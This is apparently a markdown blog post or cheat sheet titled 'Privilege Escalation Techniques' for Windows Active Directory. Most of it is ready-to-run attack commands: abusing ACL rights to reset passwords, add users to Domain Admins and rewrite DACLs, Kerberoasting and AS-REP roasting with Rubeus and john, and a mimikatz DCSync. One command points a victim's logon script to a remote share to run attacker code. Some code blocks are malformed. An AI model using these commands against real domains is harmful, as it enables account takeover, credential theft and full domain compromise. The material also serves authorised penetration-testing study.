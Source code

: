 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: Privilege Escalation Techniques
---
```


# ACL Abuse
Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

## GenericAll / GenericWrite / WriteProperty

### On a User
- **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
- **Targeted Kerberoasting**
    - Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    - Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    - Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
- **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### On a Group
- **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

## Special Rights Abuse

1. GenericWrite on User
- Overwrite logon script path for the target user:
```powershell
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
2. AllExtendedRights

- Change Password
```bash
net user <username> <password> /domain
```

- Add to Group
   - Using `net`: 
	```bash
	net group "domain admins" spotless/add /domain
	```
	- Using Active Directory module:
	```powershell
	Add-ADGroupMember -Identity "domain admins" -Members spotless
	```
    - Using PowerView module:
	```powershell
	Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
	```
3. Self-Membership

	- Add to Group
```powershell
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
4. ExtendedRight on
	- User-Force-Change-Password (Password Reset)
```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
```
5. WriteProperty
	- Add to Group
```powershell
Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
```
6. WriteOwner
	- Change the object’s owner
```powershell
Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
```
	- Change Owner
```powershell
Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
```
7. WriteDACL
	- Grant Generic Permissions** (must be the owner)
```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```
8. DCSync Attack 
	- The user running the command must have Replicating Directory Changes permissions in Active Directory. This is typically assigned to domain admins or equivalent privileged accounts.
```powershell
lsadump::dcsync /domain:<Domain> /user:<User>
lsadump::dcsync /domain:example.com /user:administrator
```

## Kerberoasting
Kerberoasting targets accounts with Kerberos service tickets by exploiting service principal names (SPNs) and cracking the tickets offline.

### Find Service Accounts
- Using Active Directory:
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

- Using PowerView:
```powershell
Get-DomainUser –SPN
```

### Escalation
- Use `Rubeus` to Kerberoast service accounts supporting RC4 encryption.
```bash
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
```

### Crack Tickets
- Use `john` to crack Kerberos tickets:
```bash
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

### Targeted Kerberoasting

- Find "Write" Permissions
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```
  
- Find SPN
```powershell
Get-DomainUser -Identity support1user | select serviceprincipalname
Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName
```

- Set-SPN
```powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX'}
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX'}
	```

- Kerberoasting
```powershell
Rubeus.exe kerberoast /outfile:targetedhashes.txt john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```

### AS-REP Roasting
Find accounts without Kerberos preauthentication and request an AS-REP hash for offline cracking:
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
Invoke-ASREPRoast -Verbose
```

---

